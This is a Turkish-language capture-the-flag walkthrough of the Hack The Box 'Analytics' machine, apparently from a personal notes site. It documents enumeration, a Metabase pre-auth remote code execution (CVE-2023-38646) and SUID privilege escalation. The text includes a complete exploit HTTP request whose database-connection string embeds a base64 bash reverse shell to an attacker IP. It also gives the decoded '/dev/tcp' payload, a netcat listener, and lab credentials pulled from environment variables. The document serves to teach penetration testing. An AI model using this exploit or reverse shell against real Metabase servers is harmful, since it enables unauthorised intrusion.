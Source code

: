 # Analytics

## User Flag

!!! info "Target IP Address"

    10.10.11.233

Keşfe başlamak için ilk olarak aşağıdaki komut ile bir Nmap taraması gerçekleştirdim:

```bash
nmap 10.10.11.233 -sC -sV
```

```text title="Output" hl_lines="6 10"
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-15 14:05 +03
Nmap scan report for 10.10.11.233
Host is up (1.1s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
5904/tcp filtered ag-swim
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 949.66 seconds
```

Tarama sonuçlarında 80 numaralı port açık olarak gözükmektedir. Bu bilgiden hareketle, siteyi bir web tarayıcısında ziyaret etmeyi düşündüm. URL kısmına IP adresini girerek siteye gittiğimde [http://analytical.htb](http://analytical.htb) isimli bir sayfaya yönlendirildim.

Bu adresi `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts
```

Ardından Gobuster aracı ile vHost numaralandırma girişiminde bulundum:

```bash
gobuster vhost --append-domain -u analytical.htb -w /opt/useful/SecLists/Discovery/Web-Content/common.txt
```

```text title="Output" hl_lines="15"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://analytical.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /opt/useful/SecLists/Discovery/Web-Content/common.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: data.analytical.htb Status: 200 [Size: 77883]
Progress: 4727 / 4727 (100.00%)
===============================================================
Finished
===============================================================
```

Burada bulunan adresi de `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.233 data.analytical.htb" | sudo tee -a /etc/hosts
```

Bu adrese gittiğimde Metabase ile ilgili bir Login sayfasıyla ([http://data.analytical.htb/auth/login](http://data.analytical.htb/auth/login)) karşılaştım:

![](../assets/images/analytics/metabase-login-page.png)

Yeni bulunan adres için Gobuster dizin numaralandırma girişiminde bulunduğumda aşağıdaki hata ile karşılaştım:

```text
Error: the server returns a status code that matches the provided options for non existing urls. http://data.analytical.htb/f08e9427-c322-4095-8b2c-4654cd7d10c5 => 200 (Length: 77894). To continue please exclude the status code or the length
```

Gobuster, geçerli olmayan bir URL ile bağlantı denemesinde bulunduğunda 200 başarı mesajı alıyor ve bu yüzden hata veriyor. Kısa bir araştırmadan sonra sunucunun bu şekilde davranacak şekilde kurulabileceğini öğrendim. Geçerli olmayan bir URL isteğinde bulunduğumuzda dahi 200 yanıtını döndürüyor.

Gobuster aracının denediği geçersiz URL adresine gidip Burp ile bu bağlantı arasına girdim. Ardından bağlantıyı birkaç kez normal şekilde Forward ettiğimde, bağlantının `api/setup/properties` dizinine uğradığını fark ettim. Kısa bir Google aramasından sonra, bu dizinde bulunan ve halka açık olarak bulunmaması gereken `setup-token` bilgisinin erişilebilir olduğunu öğrendim ([CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)).

Bu `setup-token` bilgisini aşağıdaki komut ile elde ettim:

```bash
echo $(curl -s -H "Content-Type: application/json" http://data.analytical.htb/api/session/properties | jq -r '.["setup-token"]')
```

```text title="Output"
249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```

Kullanabileceğim bir PoC için arama gerçekleştirdiğimde [bu](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) site ile karşılaştım. Bulduğum PoC kodunu kendime göre düzenledim:

```json title="PoC" hl_lines="7 20"
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 820

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

Burada Base64 ile kodlanmış olarak gözüken değer (`YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK`) reverse shell almak için kullanılacak olan payload (`bash -i >&/dev/tcp/10.10.14.45/4444 0>&1`) kodudur.

Bu PoC kodunu kullanabilmek için ilk önce [http://data.analytical.htb/auth/login](http://data.analytical.htb/auth/login) adresine gidip bağlantıyı Burp ile yakaladım. Yakaladığım bağlantıyı Burp Repeater kısmına gönderdikten sonra Request kısmını bu PoC bilgisi ile güncelledim. Send ile göndermeden önce Netcat ile 4444 numaralı port üzerinde bir dinleyici başlattım:

```bash
nc -lvnp 4444
```

Bunun ardından Send ile gönderdiğimde Netcat dinleyici üzerinde shell elde edebildim:

```text title="Output"
listening on [any] 4444 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.11.233] 55382
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
d12f07ea59fe:/$
```

Hemen arkasından shell yükseltmesi yaparak daha sağlam bir TTY elde ettim ve böylece komut çalıştırırken alınabilecek hataları en aza indirgemiş oldum.

İçinde bulunduğum dizinde herhangi bir bayrak dosyası yoktu, bu yüzden farklı denemelerde bulundum. Nihayetinde aşağıda verdiğim kod parçası beni tekrardan doğru yola soktu:

```bash
find / -name *env 2> /dev/null
```

```text title="Output" hl_lines="3"
/bin/printenv
/usr/bin/env
/usr/lib/bash/printenv
/.dockerenv
```

Arama sonuçlarından elde ettiğim bilgilerden yola çıkarak `printenv` komutunu kullandım ve bu komut bana aşağıdaki çıktıyı sağladı:

```text title="Output" hl_lines="13 14"
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=d12f07ea59fe
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
OLDPWD=/home/metabase
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
```

Elde ettiğim kullanıcı adı ve parola bilgisi ile reverse shell dışında bir SSH bağlantısı gerçekleştirdim:

```bash
ssh metalytics@analytical.htb
```

Bağlantı kurulduktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
cat ~/user.txt
```

## Root Flag

Yanlış yapılandırılmış SUID etiketli çalıştırılabilir bir dosya olup olmadığını öğrenmek amacıyla aşağıdaki aramayı gerçekleştirdim:

```bash
find / -perm /4000 -exec ls -l {} \; 2> /dev/null
```

```text title="Output" hl_lines="1"
-rwsr-xr-x 1 root metalytics 1396520 Jan 15 14:38 /var/tmp/bash
-rwsr-xr-x 1 root root 40496 Nov 24  2022 /usr/bin/newgrp
-rwsr-xr-x 1 root root 72072 Nov 24  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 35192 Feb 21  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 44808 Nov 24  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 35200 Mar 23  2022 /usr/bin/fusermount3
-rwsr-xr-x 1 root root 232416 Apr  3  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 59976 Nov 24  2022 /usr/bin/passwd
-rwsr-xr-x 1 root root 47480 Feb 21  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 72712 Nov 24  2022 /usr/bin/chfn
-rwsr-xr-- 1 root messagebus 35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 338536 Aug 24 13:40 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
```

İlk bulunan sonuç çok umut vericiydi. Bu sebeple bu dosyayı, [GTFOBins](https://gtfobins.github.io/gtfobins/bash/#suid) sayfasında bahsedildiği şekilde çalıştırdım (privileged mode) ve bu sayede `root` kullanıcısı olabildim:

```bash
/var/tmp/bash -p
```

Yüksek yetkilere sahip shell içerisinde aşağıdaki komut ile `root` bayrağını elde edebildim:

```bash
cat /root/root.txt
```
